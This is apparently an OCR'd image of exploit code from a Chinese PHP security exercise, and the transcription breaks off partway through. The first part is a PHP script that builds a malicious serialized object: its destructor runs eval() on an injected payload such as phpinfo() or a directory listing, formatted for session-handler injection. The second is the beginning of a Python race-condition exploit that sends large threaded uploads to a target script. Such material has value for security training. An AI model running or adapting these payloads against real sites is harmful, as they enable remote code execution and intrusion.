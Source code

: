 

```
构造恶意序列化语句

&lt;?php
ini_set('session.serialize_handler', 'php_serialize');
session_start();
class Door{
    public $handle;
​
    function __construct() {
        $this-&gt;handle = new IP();
    }
​
    function __destruct() {
        $this-&gt;handle-&gt;action();
    }
}
class TimeNow {
    function action() {
        echo "你的访问时间:"."  ".date('Y-m-d H:i:s',time());
    }
}
​
class  IP{
    public $ip;
    function __construct() {
        //$this-&gt;ip='payload';
        $this-&gt;ip='phpinfo();';
        //$this-&gt;ip='print_r(scandir('/'));';
    }
    function action() {
        eval($this-&gt;ip);
    }
}
$a=new Door();
$b=serialize($a);
$c=addslashes($b);
$d=str_replace("O:4:","|O:4:",$c);
echo $d;
?&gt;

```

```
条件竞争

#coding=utf-8
import requests
import threading
import io
import sys
​
def exp(ip,port):
    
    f = io.BytesIO(b'a' * 1024 *1024*1)
    while True:
        et.wait()
        url = 'http://'+ip+':'+str(port)+'/test5.php'
        headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3',
```